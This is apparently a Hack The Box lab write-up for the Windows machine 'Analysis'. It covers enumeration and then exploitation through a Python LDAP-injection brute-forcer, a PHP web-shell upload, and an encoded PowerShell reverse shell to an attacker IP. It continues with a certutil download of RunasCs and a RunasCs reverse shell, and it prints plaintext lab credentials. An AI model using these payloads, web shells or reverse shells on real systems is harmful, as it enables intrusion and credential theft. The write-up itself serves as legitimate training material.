

# \[HTB] Analysis - WriteUp

<p align="center">
	
</p>

> Written by [V0lk3n](https://twitter.com/V0lk3n)


## Table of Contents

* [Analysis - Information](#information)
* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
	* [Exploitation - LDAP Injection](#exploitation-ldap)
	* [Exploitation - Getting a web shell](#exploitation-webshell)
	* [Exploitation - Webshell to Reverse shell](#exploitation-reverseshell)
* [Privilege Escalation](#privesc)
	* [Privilege Escalation - svc_web to webservice](#privesc-webservice)
	* [Privilege Escalation - webservice to jdoe user](#privesc-jdoe)
	* [Privilege Escalation - jdoe to Administrator](#privesc-administrator)
		* [Privilege Escalation - DLL Hijacking](#privesc-dllhijacking)<br/><br/>

# Analysis - Information<a name="information"></a>

OS : Windows

Difficulty : Hard

IP Address : 10.129.230.179

Creator : <a href="https://app.hackthebox.com/users/70653">UVision</a>

# Enumeration<a name="enumeration"></a>

First i add to my `/etc/hosts` file the box ip address and the hostname `analysis.htb` as it's the name of the box.

Then i run a nmap scan.

```bash
$ nmap -A -p - analysis.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-07 23:29 CET
Nmap scan report for analysis.htb (10.129.230.179)
Host is up (0.066s latency).
Not shown: 65507 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-server-header: 
|   Microsoft-HTTPAPI/2.0
|_  Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-07 22:30:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3306/tcp  open  mysql         MySQL (unauthorized)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|_    HY000
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
...
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-07T22:31:29
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.86 seconds

```

As kerberos is running, i start an user enumeration using kerbrute on it, while doing my web enumeration. Note that i removed the duplicated username.

```bash
$ ./kerbrute_linux_amd64 userenum -d analysis.htb --dc 10.129.230.179 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/07/24 - Ronnie Flathers @ropnop

2024/03/07 23:35:02 >  Using KDC(s):
2024/03/07 23:35:02 >   10.129.230.179:88

2024/03/07 23:36:04 >  [+] VALID USERNAME:       jdoe@analysis.htb
2024/03/07 23:36:49 >  [+] VALID USERNAME:       ajohnson@analysis.htb
2024/03/07 23:37:56 >  [+] VALID USERNAME:       cwilliams@analysis.htb
2024/03/07 23:38:51 >  [+] VALID USERNAME:       wsmith@analysis.htb
2024/03/07 23:40:49 >  [+] VALID USERNAME:       jangel@analysis.htb
2024/03/07 23:48:08 >  [+] VALID USERNAME:       technician@analysis.htb
2024/03/08 00:26:31 >  [+] VALID USERNAME:       badam@analysis.htb
```

I've run a normal subdomain fuzzing without succes.

So my next attempt was to bruteforce using the NS Server with dnsrecon, and this time i retrieved a lot of subdomain records.

```bash
$ dnsrecon -d analysis.htb -n 10.129.230.179 -D /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t brt
[*] Using the dictionary file: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt (provided by user)
[*] brt: Performing host and subdomain brute force against analysis.htb...
[+]      A www.analysis.htb 192.168.1.100
[+]      A internal.analysis.htb 192.168.1.100
[+]      A gc._msdcs.analysis.htb 10.129.230.179
[+]      A domaindnszones.analysis.htb 10.129.230.179
[+]      A forestdnszones.analysis.htb 10.129.230.179
```

I add `internal.analysis.htb` to my `/etc/hosts` file as it seem to be the only one that i can access from my host, and start my enumeration against it.

I start by directory/files fuzzing using gobuster.

```bash
$ gobuster dir -u http://internal.analysis.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal.analysis.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/users                (Status: 301) [Size: 170] [--> http://internal.analysis.htb/users/]
/dashboard            (Status: 301) [Size: 174] [--> http://internal.analysis.htb/dashboard/]
/Users                (Status: 301) [Size: 170] [--> http://internal.analysis.htb/Users/]
/employees            (Status: 301) [Size: 174] [--> http://internal.analysis.htb/employees/]
...
```

I found three interesting directory, `/users`, `/dashboard` and `employees`, so let's enumerate them one by one.

### Web Enumeration - Dashboard Path

Fuzzing directory/files with gobuster against `/dashboard` directory.

```bash
 $ gobuster dir -u http://internal.analysis.htb/dashboard/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal.analysis.htb/dashboard/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 38]
/img                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/img/]
/uploads              (Status: 301) [Size: 182] [--> http://internal.analysis.htb/dashboard/uploads/]
/upload.php           (Status: 200) [Size: 0]
/details.php          (Status: 200) [Size: 35]
/css                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/css/]
/Index.php            (Status: 200) [Size: 38]
/lib                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/lib/]
/form.php             (Status: 200) [Size: 35]
/js                   (Status: 301) [Size: 177] [--> http://internal.analysis.htb/dashboard/js/]
/logout.php           (Status: 302) [Size: 3] [--> ../employees/login.php]
/404.html             (Status: 200) [Size: 13143]
/tickets.php          (Status: 200) [Size: 35]
/emergency.php        (Status: 200) [Size: 35]
...
```

A lot of result, but browsing those show nothing relevant excepted blank page. So let's move on.

### Web Enumeration - Employees Path

Fuzzing directory/files using gobuster against `/employees` directory.

```bash
$ gobuster dir -u http://internal.analysis.htb/employees/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal.analysis.htb/employees/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1085]
```

I found a login page.

<p align="center">
	
</p>

Apparently, i need to use an email and password to login, guessing credentials doesn't worked, of course i can attempt to bruteforce the page with the email found with kerbrute, but as im at my enumeration steps, i prefere to move on.

### Web Enumeration - Users Path

Fuzzing directory/files using gobuster against `/users` directory.

```bash
$ gobuster dir -u http://internal.analysis.htb/users/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal.analysis.htb/users/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/list.php             (Status: 200) [Size: 17]
```

We found a page named `list.php`. Browsing it reveal that we are missing parameter.

<p align="center">
	
</p>

So let's fuzzing the paremeters, for this i used the tool called `wfuzz` using the `large.txt` parameter wordlist from Arjun. You can find it bellow :

<a href="https://github.com/s0md3v/Arjun/tree/master/arjun/db">Parameter wordlists</a>

```bash
$ wfuzz -c -w Documents/pentest-toolset/wordlists/params/params-large.txt --hc=404 'http://internal.analysis.htb/users/list.php?FUZZ=FUZZ'   

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://internal.analysis.htb/users/list.php?FUZZ=FUZZ
Total requests: 25890

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000000007:   200        0 L      2 W        17 Ch       "15 - 15"
000000036:   200        0 L      2 W        17 Ch       "aao - aao"
000000030:   200        0 L      2 W        17 Ch       "aai - aai"
...
```

Runing the tool and ignoring 404 error, i got full of false positive. This is because i alway get an answer from the "missing parameter" page. So run again the tool and this time ignore every content of 17 characters to ignore the "missing parameter" response.

```bash
$ wfuzz -c -w Documents/pentest-toolset/wordlists/params/params-large.txt --hc=404 --hh=17 

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://internal.analysis.htb/users/list.php?FUZZ=FUZZ
Total requests: 25890

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000013172:   200        0 L      11 W       406 Ch      "name - name"                                                         

Total time: 126.4715
Processed Requests: 25890
Filtered Requests: 25889
Requests/sec.: 204.7100

```

Nice, i've found the parameter `name` and the page contain 406 characters. Let's try to browse it to see how its look like.

<p align="center">
	
</p>

Nice, now i try to put as value for the "name" parameter, the users found with kerbrute, and got a match.

<p align="center">
	
</p>

As you can see, the name "technician" is reflected into the tables "Username" and "First Name".

My first attempt was to look for SQL injection, as shown the nmap scan, mysql is runing, so i was thinking that the tables was taking SQL query to retrieve the correct data.

```bash
3306/tcp  open  mysql         MySQL (unauthorized)
33060/tcp open  mysqlx?
```

But i was wrong. Looking back at my nmap scan, i searched for which attack may be possible, and i seen that ldap was runing too.

```bash
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
```

So maybe it's the same idea that i get mysql, a ldap injection. As im not really good to it, i do a bit of google search and read some ressources about ldap injection. Bellow is the better ressources that i've read.

- <a href="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/06-Testing_for_LDAP_Injection">OWASP - 06  Testing for LDAP Injection</a>

- <a href="https://book.hacktricks.xyz/pentesting-web/ldap-injection">Hacktricks - LDAP Injection</a>

- <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection">Payload All The Things - LDAP Injection</a>

After reading those documentation, i started to look if LDAP Injection was possible, for this i removed the "technician" value, and replaced it with a `*` for wildcard.

<p align="center">
	
</p>

It work! It retrieved the value "technician" using wildcard!

Time to exploit this.

# Exploitation<a name="exploitation"></a>

## Exploitation - LDAP Injection<a name="exploitation-ldap"></a>

To exploit it, i've developed a Python Tool. This tool was based on the script found on Hacktricks LDAP injection blog post and Payload All The Things LDAP Injection.

At the beginning i've made two script. 

The first script enumerate the valid arguments on the request, and look for which arguments was bruteforceable to retrieve data.

The second script bruteforce the arguments data.

Finally i combined both scripts, but i got some problem at the "brute force data" step, after spending a lot of time on this, i finally asked ChatGPT to fix the problem for me (the problem was about indentation and declaration variables but i'm really bad at coding, and without ChatGPT optimization, my version didnt defined functions).

You can find both of my final code bellow with the ChatGPT fix, and the one which was optimized by ChatGPT.

<a href="assets/ldap-burn_ugly.py">ldap-burn.py - Ugly version with ChatGPT fix</a>

<a href="assets/ldap-burn.py">ldap-burn.py - Optimized by ChatGPT</a>

Here is the final code (Optimized by ChatGPT version):

```python 
#!/usr/bin/python3
# 90% of this code was made by v0lk3n
# But i asked ChatGPT to fix an error for the last bruteforce step
# And finaly asked ChatGPT to optimize the code to make it better
import sys
import requests
import string
from termcolor import colored

# Constants
URL_BASE = 'http://internal.analysis.htb/users/list.php?name=*)('
SPECIAL_CHARS = "_@{}-/()!*\"$%=^[]:;"
ALPHABET = string.ascii_letters + string.digits + SPECIAL_CHARS

# Function to enumerate attributes
def enumerate_attributes():
    print(colored("\nStarting Attributes Enumeration : \n", 'blue'))
    discovered_attributes = []
    for attribute in ATTRIBUTES:
        r = requests.get(URL_BASE + str(attribute) + "=*")
        sys.stdout.write(colored("Attributes Enumeration Target : ", 'red') + URL_BASE + str(attribute) + f"\r")
        if 'technician' in r.text:
            discovered_attributes.append(str(attribute))
    print(colored("\n\nRecovered Attributes : ", 'green'))
    print(discovered_attributes)
    print("\n")
    return discovered_attributes

# Function to find bruteforcable attributes
def find_bruteforcable_attributes(attributes):
    bruteforcable_attributes = []
    for attribute in attributes:
        for char in ALPHABET:
            r = requests.get(URL_BASE + str(attribute) + "=" + str(char) + "*")
            sys.stdout.write(colored("Looking for bruteforcable attribute : ", 'red') + URL_BASE + str(attribute) + "=" + str(char) + f"\r")
            if 'technician' in r.text:
                bruteforcable_attributes.append(str(attribute))
                break
    print(colored("\n\nFound Bruteforcable Attributes : ", 'green'))
    print(bruteforcable_attributes)
    print("\n")
    return bruteforcable_attributes

# Function to perform LDAP injection
def perform_bruteforce(attributes):
    print(colored("Starting Bruteforcing...\n", 'blue'))
    recovered_data = {}
    for attribute in attributes:
        url = URL_BASE + attribute + '='
        data = ""
        while True:
            valid_char = False
            for char in ALPHABET:
                payload = url + str(char)
                r = requests.get(payload + "*")
                sys.stdout.write(colored("Bruteforcing : ", 'red') + payload + f"\r")
                if 'technician' in r.text:
                    url = payload
                    data += char
                    valid_char = True
                    break
            if not valid_char:
                print(colored("\n\nNo character found, attempting to bypass wildcard...\n", 'yellow'))
                for char in ALPHABET:
                    payload = url + "*" + str(char)
                    r = requests.get(payload + "*")
                    sys.stdout.write(colored("Bypassing wildcard : ", 'red') + payload + f"\r")
                    if 'technician' in r.text:
                        print(colored("\n\nValid special character found, returning to normal bruteforcing...\n", 'yellow'))
                        url = payload
                        data += char
                        valid_char = True
                        break
            if not valid_char:
                print(colored("\n\nNo additional character found for attribute", 'yellow'), attribute)
                break
        print(colored("\n\nRecovered data for attribute", 'green'), attribute + ':', url)
        recovered_data[attribute] = url
    return recovered_data

# Main function
def main():
    discovered_attributes = enumerate_attributes()
    bruteforcable_attributes = find_bruteforcable_attributes(discovered_attributes)
    recovered_data = perform_bruteforce(bruteforcable_attributes)
    return recovered_data

if __name__ == "__main__":
    # List of attributes
    ATTRIBUTES = (
        'accessHint', 'accountHint', 'audio', 'businessCategory', 'c', 'carLicense', 'cn', 'configPtr', 'departmentNumber',
        'description', 'destinationIndicator', 'displayName', 'employeeNumber', 'employeeType', 'facsimileTelephoneNumber',
        'generationQualifier', 'givenName', 'homeFax', 'homePhone', 'initials', 'internationalISDNNumber', 'jpegPhoto', 'l',
        'labeledURI', 'mail', 'manager', 'middleName', 'mobile', 'o', 'objectClass', 'organizationalStatus', 'otherMailbox',
        'ou', 'pager', 'personalTitle', 'photo', 'physicalDeliveryOfficeName', 'postalAddress', 'postalCode', 'postOfficeBox',
        'preferredDeliveryMethod', 'preferredLanguage', 'registeredAddress', 'roomNumber', 'secretary', 'seeAlso', 'sn', 'st',
        'street', 'telephoneNumber', 'teletexTerminalIdentifier', 'telexNumber', 'thumbNailLogo', 'thumbNailPhoto', 'title',
        'uid', 'uniqueIdentifier', 'userCertificate', 'userPKCS12', 'userPassword', 'userSMIMECertificate', 'x121Address', 'x500UniqueIdentifier'
    )
    recovered_data = main()
    print(colored("\nNo more bruteforcable data on the provided arguments list...\n", 'yellow'))
    print(colored("Recovered data for attributes:\n", 'blue'))
    for attribute, value in recovered_data.items():
        print(colored(attribute + ':', 'yellow'), value)
```

As said before, the tool will :

- Enumerate the valid arguments which is in the list.
- Look if we can retrieve data by brute forcing, and if yes, which arguments.
- Finally it bruteforce those arguments to retrieve data.
- Additionally, once no more character are found on the data, it use a way to bypass the wildcard asterix to count in as character. In case the asterix is used on the retrieved data and make sure that the data are complete.

Now i run the tool to automate the LDAP Injection.


And here are the retrieved data :

```bash
Recovered data for attributes:

cn: http://internal.analysis.htb/users/list.php?name=*)(cn=technician

description: http://internal.analysis.htb/users/list.php?name=*)(description=97NTtl*4QP96Bv

displayName: http://internal.analysis.htb/users/list.php?name=*)(displayName=technician

givenName: http://internal.analysis.htb/users/list.php?name=*)(givenName=technician
```

I guess that the description string `97NTtl*4QP96Bv` may be a password, and i use it on the `http://internal.analysis.htb/employees/login.php` page, with the `technician@analysis.htb`email found with kerbrute.

And it worked! We successfully logged in.

<p align="center">
	
</p>


## Exploitation - Getting a web shell<a name="exploitation-webshell"></a>

First we start to enumerate the plateform.

The dashboard show a To do list and some message not relevant at all.


<p align="center">
	
</p>

There is a tickets menu, where we can see few interesting information.

<p align="center">
	
</p>

There is two unresolved issue, hta file seem not working and there is some Active Directory login issue, which seem to be related to kerberos authentication.

There is an Emergency menu, not interesting at first look.

<p align="center">
	
</p>

A SoC menu, which look interesting because we can send file to be analyzed by analysts. And with the box name, it may be a hint for our reverse shell.

<p align="center">
	
</p>

Based on the ticket, sending an hta payload would not work. As the plateform seem to use PHP, i tried to send some payload. 

To see whats going on, i try to send a php file with a command to print `Hello`, i load the file and press `Upload the sample` on the SoC Report menu and intercept the request using BurpSuit, send to repeater, and execute the request Bellow is the content of my file.

```php
<?php
echo "Hello";
?>
```

<p align="center">
	
</p>

As we can see, the Response show the destination path of our file. And browsing it show that the PHP code is executed.

```bash
http://internal.analysis.htb/dashboard/uploads/testfile.php
```

<p align="center">
	
</p>

Testing various PHP payload, i see the connection happening but closed immediate.

So i tried to use a classic one liner php webshell payload.

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

I modify my BurpSuite request to replace the used payload, and overwrite my testfile.php by sending the new request.

<p align="center">
	
</p>

Then i browse it and try to execute the command `whoami`.
```bash
http://internal.analysis.htb/dashboard/uploads/testfile.php?cmd=whoami
```

<p align="center">
	
</p>

Great! We got the answer `analysis\svc_web`. We have a working webshell now.

## Exploitation - Webshell to Reverse shell<a name="exploitation-reverseshell"></a>

My idea was to generate a powershell reverse shell using the tool `mkpsrevshell.py`, url encode it by replacing the space with `+` character, and run that as command in the webshell.

So first i generate the payload.

```bash
$ python mkpsrevshell.py 10.10.16.52 1234
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4ANQAyACIALAAxADIAMwA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

Then i start a netcat listener on the chosen port for my payload.

```bash
$ nc -nvlp 1234                           
listening on [any] 1234 ...
```

Finally i execute my command into my webshell.

```bash
http://internal.analysis.htb/dashboard/uploads/backdoor.php?cmd=powershell+-e+JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4ANQAyACIALAAxADIAMwA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

And i get a reverse shell!

```bash
$ nc -nvlp 1234                           
listening on [any] 1234 ...
connect to [10.10.16.52] from (UNKNOWN) [10.129.230.179] 62391

PS C:\inetpub\internal\dashboard\uploads> dir

    R?pertoire?: C:\inetpub\internal\dashboard\uploads

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----
-a----       08/03/2024     22:43            114 backdoor.php                   
```

# Privilege Escalation<a name="privesc"></a>

## Privilege Escalation - svc_web to webservice<a name="privesc-webservice"></a>

A quick enumeration allowed me to find the credentials for `webservice` user.

```bash
PS C:\inetpub\internal\users> type list.php
<?php

//LDAP Bind paramters, need to be a normal AD User account.
error_reporting(0);
$ldap_password = 'N1G6G46G@G!j';
$ldap_username = 'webservice@analysis.htb';
$ldap_connection = ldap_connect("analysis.htb");

```

Wasn't able to connect through `evil-winrm`, so i uploaded RunasCS.exe to the box.

I start a python http server on my attacker box, where RunasCS.exe is located.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And download the files on the target into the `C:\inetpub\internal\dashboard\uploads` directory.

```bash
PS C:\inetpub\internal\dashboard\uploads> certutil.exe -urlcache -f http://10.10.16.52:80/RunasCs.exe runas.exe
****  En ligne  ****
CertUtil: -URLCache La commande s?est termin?e correctement.

PS C:\inetpub\internal\dashboard\uploads> dir

    R?pertoire?: C:\inetpub\internal\dashboard\uploads

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----
-a----       08/03/2024     22:43            114 backdoor.php
-a----       08/03/2024     23:03          51712 runas.exe                                                             
```

And then i used it to get a reverse shell as `webservice`.

```bash
PS C:\inetpub\internal\dashboard\uploads> .\runas.exe webservice 'N1G6G46G@G!j' "cmd /c whoami"
[*] Warning: The logon for user 'webservice' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

analysis\webservice


PS C:\inetpub\internal\dashboard\uploads> .\runas.exe webservice 'N1G6G46G@G!j' cmd.exe -r 10.10.16.52:1212
[*] Warning: The logon for user 'webservice' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-96110$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 2080 created in background.

```

## Privilege Escalation - webservice to jdoe user<a name="privesc-jdoe"></a>

Here i enumerated a bit the box, and found few interesting things but leaded me nowhere.

```bash
C:\inetpub\internal\employees>type login.php
type login.php
<?php 
 $host = "localhost";  
 $username = "db_master";  
 $password = '0$TBO7H8s12yh&';  
 $database = "employees";
 ```

 ```bash
C:\inetpub\internal\employees>type encoded.txt
-----BEGIN ENCODED MESSAGE-----
Version: BCTextEncoder Utility v. 1.03.2.1

wy4ECQMCq0jPQTxt+3BgTzQTBPQFbt5KnV7LgBq6vcKWtbdKAf59hbw0KGN9lBIK
0kcBSYXfHU2s7xsWA3pCtjthI0lge3SyLOMw9T81CPqT3HOIKkh3SVcO9jdrxfwu
pHnjX+5HyybuBwIQwGprgyWdGnyv3mfcQQ==
=a7bc
-----END ENCODED MESSAGE-----
 ```

From here i uploaded WinPEAS to the box on the path `C:\inetpub\internal\dashboard\uploads\`.

I start a python http server on my attacker box where WinPEAS is located.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

